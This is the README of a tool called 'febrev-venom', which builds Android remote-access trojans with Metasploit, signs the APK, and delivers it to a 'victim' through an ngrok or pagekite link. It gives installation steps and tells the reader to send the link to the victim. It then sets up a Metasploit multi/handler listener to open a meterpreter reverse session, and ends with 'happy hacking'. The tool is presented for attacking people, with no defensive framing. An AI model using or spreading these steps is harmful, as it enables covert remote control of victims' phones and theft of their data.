 # febrev-venom
FEBREV venom is a tool to create android RATs through metasploit , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET



*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk> or pagekite link + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
